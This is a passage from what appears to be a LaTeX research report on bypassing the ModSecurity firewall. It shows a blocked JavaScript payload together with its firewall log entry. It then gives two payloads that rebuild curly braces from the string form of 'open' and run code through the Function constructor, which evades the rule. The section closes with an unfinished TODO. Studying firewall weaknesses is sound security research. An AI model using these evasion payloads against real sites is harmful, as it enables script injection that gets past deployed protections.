 \subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string replace strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, the similar payload in Listing~\ref{lst:stringreplaceblocked} was being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using square bracket notation, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evaded the firewall.

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using dot notation, label={lst:stringreplacepass}]
[].constructor.constructor('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}




\subsubsection{Forcing unicode normalization}
{\color{red} TODO: what happens if a string followed by .normalize('NFKC') is sent as payload?}
